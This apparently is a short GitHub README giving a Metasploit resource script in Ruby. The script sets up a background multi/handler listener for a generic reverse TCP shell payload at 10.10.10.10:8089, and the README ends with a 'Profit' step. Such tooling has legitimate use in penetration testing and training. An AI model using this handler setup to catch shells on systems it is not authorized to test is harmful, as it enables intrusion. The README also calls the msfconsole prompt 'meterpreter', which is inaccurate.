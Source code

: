 # Auto Meta

Auto start script example for meterpreter

## Directions

1. Make a script to use for your attack. (mine will setup ip, port, payload, start background job)
2. Load the script in meterpreter
3. Profit. 


## Example

Name your file with .rb extension for Ruby. 

Script example `startup.rb`

```ruby
<ruby>

host = '10.10.10.10'
port = 8089
payload = 'generic/shell_reverse_tcp'

print("Setting up Fox exploit handler")

run_single("use exploit/multi/handler")
run_single("set payload #{payload}")
run_single("set LHOST #{host}")
run_single("set LPORT #{port}")
run_single("set ExitOnSession false")
run_single("run -j")

run_single("jobs")
run_single("back")
</ruby>
```

To use in meterpreter, open meterpreter.

```
msf6> resources startup.rb
```

In this script we have...

1. Set the handler
2. Set the payload
3. Set the LHOST
4. Set the LPORT
5. Set ExitOnSession false
6. Ran as a job in the background
7. List the job (check its running)
8. Set back command to return to normal meterpreter shell ready for next. 


## Screenshot

![image](https://user-images.githubusercontent.com/5285547/182806915-99214152-3fa9-4fa1-9c1d-651e179fbf7a.png)



